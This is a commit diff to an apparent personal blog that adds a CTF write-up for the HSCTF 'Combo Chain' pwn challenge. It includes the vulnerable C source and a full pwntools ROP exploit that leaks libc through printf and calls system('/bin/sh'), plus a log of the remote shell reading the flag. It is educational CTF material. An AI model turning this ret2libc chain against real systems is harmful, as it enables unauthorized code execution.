

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown, in a window 1280 px wide and 1400 px high, scrolled down 11172 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; before the commit the page ends 12190 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Added combo-chain writeup

````diff
--- a/_posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown
+++ b/_posts/2019-06-23-hsctf-binary-exploitation-challenges.markdown
@@ -616,7 +616,198 @@ Flag: `hsctf{th4nk7_f0r_th3_g00d_st0ry_yay-314879357}`
 # Combo Chain
 <a href="{{ page.url }}#title">Back to top ↑</a>
 
-To be added.
+### Challenge
+
+>Written by: Ptomerty
+>
+>I've been really into Super Smash Brothers Melee lately...
+>
+>nc pwn.hsctf.com 2345
+>
+>Note: If you're trying to use python or a similar program to run your exploit, make sure to keep stdin alive with cat, like this: (python; cat -) \| nc pwn.hsctf.com <port>
+>
+>6/3/19 7:35 AM: Binary updated, SHA-1: 0bf0640256566d2505113f485949ec96f1cd0bb9 combo-chain
+
+The challenge archive contained the following files.
+```
+combo-chain
+combo-chain.c
+```
+
+### Solution
+
+This challenge is the exact same as Storytime above, except we don't have access to the write() function, so we just use printf() instead to leak gets()'s libc address using it's GOT entry. We then use it to find the libc version, calculate the libc base address, then re-exploit the program and call system('/bin/sh') instead.
+
+The one weird issue I ran into was that after overflowing the buffer, I had to jump to a 'nop; ret;' gadget before doing the actual exploit. I'm still unsure why that happened to be the case, but it did, so I guess that's just a note to take: If your exploit isn't working even though it should, you might just need a nop gadget after the overflow to align (?) something.
+
+The code is shown below.
+```c
+#include <stdlib.h>
+#include <string.h>
+#include <stdio.h>
+
+void vuln() {
+  char dest[8];
+  printf("Dude you hear about that new game called /bin/sh");
+  printf("? Enter the right combo for some COMBO CARNAGE!: ");
+  gets(dest);
+}
+
+int main() {
+  setbuf(stdout, NULL);
+  gid_t gid = getegid();
+  setresgid(gid,gid,gid);
+  vuln();
+  return 0;
+}
+```
+
+My exploit is shown below. It's the exact same as the one above from Storytime so I will skip the explanation. I have started to use a template for my exploits from now on. You can find it [here](https://github.com/farazsth98/ctf-pwntools-skeleton).
+```python
+#!/usr/bin/env python2
+
+from pwn import *
+import sys
+
+# ---------------- START OF BOILERPLATE ------------------- #
+
+argv = sys.argv
+
+DEBUG = False
+BINARY = './combo-chain'
+
+context.binary = BINARY
+context.terminal = ['tmux', 'splitw', '-v']
+
+if context.bits == 64:
+  r = process(['ROPgadget', '--binary', BINARY])
+  gadgets = r.recvall().strip().split('\n')[2:-2]
+  gadgets = map(lambda x: x.split(' : '),gadgets)
+  gadgets = map(lambda x: (int(x[0],16),x[1]),gadgets)
+  r.close()
+
+  pop_rdi = 0
+  pop_rsi_r15 = 0
+  pop_rdx = 0
+
+  for addr, name in gadgets:
+    if 'pop rdi ; ret' in name:
+      pop_rdi = addr
+    if 'pop rsi ; pop r15 ; ret' in name:
+      pop_rsi_r15 = addr
+    if 'pop rdx ; ret' in name:
+      pop_rdx = addr
+
+  def call(f, a1, a2, a3):
+    out = ''
+    if a1 != None:
+      out += p64(pop_rdi)+p64(a1)
+    if a2 != None:
+      out += p64(pop_rsi_r15)+p64(a2)*2
+    if a3 != None:
+      if pop_rdx == 0:
+        print 'RDX GADGET NOT FOUND'
+        exit(-1)
+      else:
+        out += p64(rdx)+p64(a3)
+    return out+p64(f)
+
+def attach_gdb():
+  gdb.attach(sh)
+
+if DEBUG:
+  context.log_level = 'debug'
+
+def start():
+  global sh
+  if len(argv) < 2:
+    stdout = process.PTY
+    stdin = process.PTY
+
+    sh = process(BINARY, stdout=stdout, stdin=stdin)
+
+    # if DEBUG:
+    #   attach_gdb()
+
+    REMOTE = False
+  else:
+    sh = remote('pwn.hsctf.com', 2345)
+    REMOTE = True
+
+start()
+
+# ---------------- END OF BOILERPLATE --------------------- #
+
+elf = ELF(BINARY)
+
+gets_got = elf.got['gets']
+printf_plt = elf.plt['printf']
+main_addr = elf.symbols['main']
+nop = 0x000000000040114f
+
+payload = "A"*16 # Overflow the buffer
+payload += p64(nop) # Added here because the exploit wasn't working without it for some reason
+payload += call(printf_plt, gets_got, None, None) # Call printf with gets()'s GOT address to leak the gets() libc address
+payload += p64(main_addr) # Jump back to main
+
+sh.sendlineafter("!: ", payload)
+
+leak = u64(sh.recv()[:6].ljust(8, '\x00')) # Leaked address
+print 'Leaked gets libc address: {}'.format(hex(leak))
+
+# Use niklasb's libc_database to find libc version using the leak now
+
+# Use offsets from the libc library
+gets_offset = 0x000000000006ed80
+system_offset = 0x0000000000045390
+bin_sh_offset = 0x18cd57
+
+# Calculate libc base then the addresses required
+libc_base = leak - gets_offset
+system_addr = libc_base + system_offset
+bin_sh = libc_base + bin_sh_offset
+
+# Re-exploit and call system('/bin/sh')
+payload = "A"*16
+payload += p64(nop)
+payload += call(system_addr, bin_sh, None, None)
+
+sh.sendline(payload)
+
+sh.interactive()
+```
+
+Running the exploit.
+```shell
+» ./exploit.py remote
+[*] '/root/Documents/hsctf-6/pwn/combo-chain/bin/combo-chain'
+    Arch:     amd64-64-little
+    RELRO:    Partial RELRO
+    Stack:    No canary found
+    NX:       NX enabled
+    PIE:      No PIE (0x400000)
+[+] Starting local process '/usr/local/bin/ROPgadget': pid 6822
+[+] Receiving all data: Done (3.89KB)
+[*] Stopped process '/usr/local/bin/ROPgadget' (pid 6822)
+[+] Opening connection to pwn.hsctf.com on port 2345: Done
+Leaked gets libc address: 0x7fbcb22b7d80
+[*] Switching to interactive mode
+$ ls
+bin
+combo-chain
+combo-chain.c
+dev
+flag
+lib
+lib32
+lib64
+$ cat flag
+hsctf{i_thought_konami_code_would_work_here}
+$
+```
+
+Flag: `hsctf{i_thought_konami_code_would_work_here}`
+
 
 # Bit
 <a href="{{ page.url }}#title">Back to top ↑</a>
````
